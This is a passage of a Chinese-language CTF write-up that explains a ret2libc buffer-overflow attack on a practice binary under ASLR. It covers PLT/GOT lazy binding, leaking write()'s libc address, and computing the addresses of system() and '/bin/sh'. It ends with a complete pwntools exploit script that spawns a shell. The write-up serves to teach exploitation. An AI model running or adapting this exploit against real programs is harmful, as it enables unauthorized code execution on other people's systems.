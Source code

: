 开ALSR之后，我们每次从gdb中查找的地址都是变化的。但是程序本身在内存中的地址并不是随机的。如图所示：

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191107140517.png)

思路是：我们泄露出libc.so某些函数在内存中地址，然后利用泄露出来的函数地址根据函数的偏移量计算得出system()和"/bin/sh"的内存地址，然后执行system("/bin/sh")

由于题目没有给出libc.so，使用``ldd``命令查询程序调用的函数库，然后将函数库文件拷贝当前目录

```shell
$ ldd level2
	linux-gate.so.1 (0xf7fd4000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7ddc000)
	/lib/ld-linux.so.2 (0xf7fd6000)
$ sudo cp /lib/i386-linux-gnu/libc.so.6 libc.so
```

利用objdump查看程序的plt和got表，因为我们只能先利用程序所使用的函数，去泄露对应的地址。（图一.plt表，图二.got表）

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191107142252.png)

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191107142806.png)

这里我们使用``write@plt()``函数把存储在``write@GLIBC_2.0``(或称``write.got``)的``write()``函数的内存地址打印出来。然后计算system()和"/bin/sh"与write()在函数库libc.so中的offset（相对地址）得到最后的地址。

> Q: 为什么用的是调用write@plt()打印write@got()？
>
> A:`write()`函数实现是在`libc.so`当中，那我们调用的`write@plt()`函数为什么也能实现`write()`功能呢? 这是因为linux采用了延时绑定技术，当我们调用`write@plit()`的时候，系统会将真正的`write()`函数地址link到got表的`write.got`中，然后`write@plit()`会根据`write.got` 跳转到真正的`write()`函数上去。（如果还是搞不清楚的话，推荐阅读《程序员的自我修养 - 链接、装载与库》这本书）

再将pc指针return回`vulnerable_function()`函数，就可以进行ret2libc溢出攻击，并且这一次我们知道了`system()`在内存中的地址，就可以调用`system()`函数来获取我们的shell了。

本地EXP

> 函数、gadget等地址，可能因电脑不同而不一致。请动手操作，获取本机相关地址后，自行替换

```python
# coding:utf-8
from pwn import *

context.log_level = 'debug'

elf = ELF("./level2")
libc = ELF("./libc.so")
p = process("./level2")

write_plt = elf.symbols['write'] # 获取程序中的write.plt
write_got = elf.got['write'] # 获取程序中的write.got
vulfun_addr = 0x08048404 # 漏洞函数地址
payload_1 = 'a'*140 + p32(write_plt) + p32(vulfun_addr) + p32(1) + p32(write_got) + p32(4)

p.send(payload_1)
write_addr = u32(p.recv(4)) # 接受返回的内存地址

libc_addr = write_addr - libc.symbols['write']
system_addr = libc_addr + libc.symbols['system']
binsh_addr = libc_addr + next(libc.search('/bin/sh')) # 寻找字符串地址
payload_2 = 'a'*140 + p32(system_addr) + p32(vulfun_addr) + p32(binsh_addr)

p.send(payload_2)
p.interactive()
```
